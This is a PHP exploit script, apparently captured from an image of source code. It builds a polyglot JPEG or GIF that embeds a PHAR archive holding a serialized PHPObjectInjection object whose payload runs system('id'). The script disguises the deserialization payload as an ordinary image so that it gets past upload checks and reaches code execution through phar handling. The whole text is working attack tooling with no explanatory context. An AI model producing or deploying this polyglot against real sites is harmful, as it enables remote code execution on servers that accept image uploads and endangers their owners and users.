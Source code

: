 ```
function generate_polyglot($phar, $jpeg){
$phar = substr($phar, 6); // remove <?php dosent work with prefix
$len = strlen($phar) + 2; // fixed
$new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
$contents = substr($new, 0, 148) . "        " . substr($new, 156);

    // calc tar checksum
    $chksum = 0;
    for ($i=0; $i<512; $i++){
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// pop exploit class
class PHPObjectInjection {}
$object = new PHPObjectInjection;
$object->inject = 'system("id");';
$object->out = 'Hallo World';



// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```
